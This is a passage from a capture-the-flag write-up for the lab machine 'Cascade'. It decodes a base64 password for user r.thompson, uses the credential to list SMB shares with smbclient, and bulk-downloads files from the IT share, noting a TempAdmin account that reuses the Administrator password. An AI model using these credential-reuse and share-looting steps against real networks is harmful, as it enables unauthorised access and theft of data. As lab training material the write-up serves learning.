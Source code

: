 ```
# echo clk0bjVldmE= | base64 -d
rY4n5eva
```

We have a password for Ryan so we can try to use his credentials somewhere. He is not part of the "Remote Management Users" so we cannot use `evil-winrm` to get a shell as him. However, we can use these credentials to look at SMB shares.

```
# smbclient -L cascade.htb -U "r.thompson"
Enter WORKGROUP\r.thompson's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Audit$          Disk      
        C$              Disk      Default share
        Data            Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        print$          Disk      Printer Drivers
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

## User

We can get into a few of these shares with our new credentials: `Audit$`, `Data`, `NETLOGON`, `print$`, and `SYSVOL`. We cannot view anything in `Audit$`, `NETLOGON` and `SYSVOL` do not have any interesting information, `print$` seems to just be printer files, but `Data` has some interesting files in it.

```
# smbclient \\\\cascade.htb\\Data -U "r.thompson"
Enter WORKGROUP\r.thompson's password: 
Try "help" to get a list of possible commands.
smb: \> cd IT
smb: \IT\> recurse ON
smb: \IT\> prompt OFF
smb: \IT\> mget *
getting file \IT\Email Archives\Meeting_Notes_June_2018.html of size 2522 as Meeting_Notes_June_2018.html (17.5 KiloBytes/sec) (average 17.5 KiloBytes/sec)
getting file \IT\Logs\Ark AD Recycle Bin\ArkAdRecycleBin.log of size 1303 as ArkAdRecycleBin.log (9.2 KiloBytes/sec) (average 13.3 KiloBytes/sec)
getting file \IT\Logs\DCs\dcdiag.log of size 5967 as dcdiag.log (41.3 KiloBytes/sec) (average 22.7 KiloBytes/sec)
getting file \IT\Temp\s.smith\VNC Install.reg of size 2680 as VNC Install.reg (17.0 KiloBytes/sec) (average 21.2 KiloBytes/sec)
```

The meeting notes email mentions that there is a TempAdmin account which has the same password as Administrator which would be very useful to find.
